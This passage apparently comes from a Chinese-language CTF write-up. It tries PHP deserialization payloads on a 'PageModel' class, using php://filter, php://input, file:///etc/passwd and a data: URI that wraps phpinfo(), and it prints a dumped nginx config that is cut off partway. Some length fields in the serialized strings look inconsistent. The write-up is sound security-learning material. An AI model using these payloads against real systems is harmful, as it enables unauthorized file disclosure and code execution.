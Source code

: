     * 由于这种方法无法直接访问路径，所以效率比较低

12. 尝试include、php伪协议访问路径

    * php://filter，返回200，内容为空

      ```php
      O:9:"PageModel":1:{s:4:"file";s:26:"php://filter/resource=flag";}
      
      Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoyNjoicGhwOi8vZmlsdGVyL3Jlc291cmNlPWZsYWciO30=
      ```

    * php://input，返回200，内容为空，应该是伪协议没有执行

      ```PHP
      O:9:"PageModel":1:{s:4:"file";s:11:"php://input";}
      
      O:9:"PageModel":1:{s:4:"file";s:11:"PhP://INPUT";}
      ```

    * file://[absolutePath]，只能输入绝对路径，和直接传文件名没区别，能正常访问到文件内容，但目前的难点在于找不到flag文件位置

      ```shell
      O:9:"PageModel":1:{s:4:"file";s:22:"file:///etc/passwd";}
      ```

    * data:text/plain,\<? [code] ?\>，内容为空，应该是data伪协议没有执行

      ```php
      O:9:"PageModel":1:{s:4:"file";s:35:"data:text/plain,<?php phpinfo(); ?>";}
      ```

13. 重新尝试直接读取文件

    * 读取nginx配置文件

      ```shell
      user www;
      pid /run/nginx.pid;
      error_log /dev/stderr info;
      
      events {
          worker_connections 1024;
      }
      
      http {
          server_tokens off;
          log_format docker '$remote_addr $remote_user $status "$request" "$http_referer" "$http_user_agent" ';
          access_log /var/log/nginx/access.log docker;
      
          charset utf-8;
          keepalive_timeout 20s;
          sendfile on;
          tcp_nopush on;
          client_max_body_size 1M;
      
          include  /etc/nginx/mime.types;
      
          server {
              listen 80;
              server_name _;
      